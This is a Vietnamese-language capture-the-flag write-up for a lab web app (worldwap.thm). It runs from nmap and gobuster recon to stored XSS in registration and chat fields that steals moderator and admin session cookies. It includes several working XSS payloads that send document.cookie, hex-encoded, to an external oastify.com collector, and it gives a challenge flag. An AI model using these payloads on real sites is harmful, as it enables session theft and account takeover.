# **Whats Your Name?**

## 0. Describe
>>This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks. To start the VM, click the Start Lab Machine button at the top right of the task.

>>You will find all the necessary tools to complete the challenge, like Nmap, PHP shells, and many more on the AttackBox. Also, please add the hostname worldwap.thm in the hosts file.

>>"Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?"

Bài yêu cầu phải trả lời 2 câu hỏi:
>>1. What is the flag value after accessing the moderator account?

>>2. What is the flag value after accessing the admin panel?

*Lưu ý: Bắt buộc phải fix host thành `worldwap.thm` và `login.worldwap.thm` thì mới có thể truy cập được vhost*

## 1. Recon
Ta sẽ thực hiện xem có những dịch vụ nào được host trên IP đã được cho bằng **Nmap**

```bash
nmap -T4 10.48.163.181 -Pn -sV
```



Kết quả là ta dò được 3 dịch vụ:
- `22`: SSH (*thường ít dùng*)
- `80` và `8081`: đều là web chạy **Apache**; vì vậy nên ta tập trung vào 2 dịch vụ này

Ta thực hiện truy cập port `80` bằng domain thì ra được một trang gồm chức năng **register**



Thực hiện truy cập bằng port `8081` thì ta lại chỉ thấy màn hình trắng



Tiếp theo ta thực hiện dùng **gobuster** để có thể dò được những thư mục ẩn trên 2 port 

```bash
sudo gobuster dir -u https://worldwap.thm/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt --threads 100 -x log,txt,php -s 200,301,302,307,401,403 -b ""
```



Kết quả là ta nhận được một số enpoint\
Ta thấy có `log.txt` nhưng lại trả về `0` byte nên đây có thể là 1 file rỗng

## 2. Exploit
Trước tiên thì ta test web trên port `80` trước\
Ta thực hiện truy cập chức năng **register**\
Ta thấy được thông báo rằng thông tin của ta sẽ được người dùng `moderator` xem



Ta thấy có 1 form để điền thông tin đăng kí của người dùng\
Thực hiện đăng kí 1 người dùng theo đúng yêu cầu





Kết quả là nó thông báo thành công và chuyển hướng chúng ta sang trang `login.php`\
Ta thực hiện đăng nhập tài khoản vừa tạo



Kết quả là web báo rằng `User not verified.`\
Ta thử thực hiện đăng nhập 1 người dùng chưa được register 



Kết quả là web trả về `Invalid username or password`\
Vậy ta có thể kết luận là dù có register rồi, nhưng khi đăng nhập vẫn phải đăng nhập bằng 1 tài khoản đã được **verify**

Chủ đề này là chủ để **Client-side** nên ta tập trung vào những lỗ hổng phía client

Quay trở lại trang register, ta thực hiện chèn **XSS** vào trường thông tin rồi đăng kí, nhằm kiểm tra xem có tồn tại không, nếu có người dùng `moderator` sẽ đọc nó và thực hiện hành vi trên trình duyệt:

```html
<script>fetch('//tyvv9acxglj77s96kcypv3yynptghe53.oastify.com')</script>
```

Ta thực hiện đăng kí tất cả các trường có thể đăng kí được bằng payload trên


<br>


Kết quả là ta nhận được truy vấn DNS, tiếp theo ta thực hiện 
lấy cookie của user này

```html
<script>fetch('//tyvv9acxglj77s96kcypv3yynptghe53.oastify.com/?c='+document.cookie);</script>
```



Kết quả là ta chỉ nhận được truy vấn DNS\
Ta thực hiện chuyển cookie sang **base64** rồi chèn vào đầu domain

```html
<script>fetch('//'+btoa(document.cookie)+'tyvv9acxglj77s96kcypv3yynptghe53.oastify.com/');</script>
```


<br>


Kết quả là không decode được, ta thử thực hiện chuyển sang **Hex**:

```html
<script>
var c=document.cookie, h='';
for(var i=0;i<c.length;i++){h+=('0'+c.charCodeAt(i).toString(16)).slice(-2)}
new Image().src='//'+h+'.kc0mn1qoucxyljnxy3cg9ucp1g77v9jy.oastify.com/';
</script>
```


<br>


Ta thực hiện decoded và thu được cookie của `moderator`, thực hiện truy cập `dashboard.php` bằng cookie này



Ta đã truy cập được vào người dùng dùng `moderator`, chú ý phía dưới ta thấy được `login.worldwap.thm` xử lý và hoạt động\
Thực hiện truy cập domain này bằng port `80` ta không thấy có gì, ta đổi thành port `8081` cũng không có gì, ta thực hiện dò bằng **gobuster**

```bash
sudo gobuster dir -u http://login.worldwap.thm/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt --threads 100 -x log,txt,php -s 200,301,302,307,401,403 -b ""
```



Kết quả ta tạo nhận được những endpoint\
Ta thực hiện truy cập bằng `/profile.php` bởi vì trước đó ta đã đăng nhập được vào `worldwap.thm` rồi



Ta nhận được flag đầu tiên: `ModP@wnEd`

Tiếp theo ta thấy được trang web chỉ có 2 chức năng có thể hoạt động là **chat** và **change password**\
Ta thực hiện truy cập chức năng **change password** đầu tiên



Khi đổi mật khẩu thì báo chỉ cho admin sử dụng\
Tiếp theo thì ta thực hiện truy cập chức năng **chat**



Ta thực hiện gửi 2 tin nhắn, 1 tin nhắn là `test` và 1 tin nhắn là `<h1>test</h1>` thì web thực hiện render html cho tin nhắn thứ 2\
Vì vậy ta có thể kết luận chức năng này bị `Stored XSS`

Ta thực hiện tạo payload để lấy được cookie của **admin**

```html
<script>
var c=document.cookie.split('=')[1], h='';
for(var i=0;i<c.length;i++){h+=('0'+c.charCodeAt(i).toString(16)).slice(-2)}
new Image().src='//'+h+'.quos578ucif43p53g9umr0uvjmpddg15.oastify.com/';
</script>
```

Sau khi gửi phải nhấn `Reset/ Move Admin Bot to chat.php page` để bot admin truy cập chức năng chat


<br>


Kết quả là ta nhận được cookie của admin, ta thực hiện truy cập vào `profile.php` bằng cookie đã lấy được

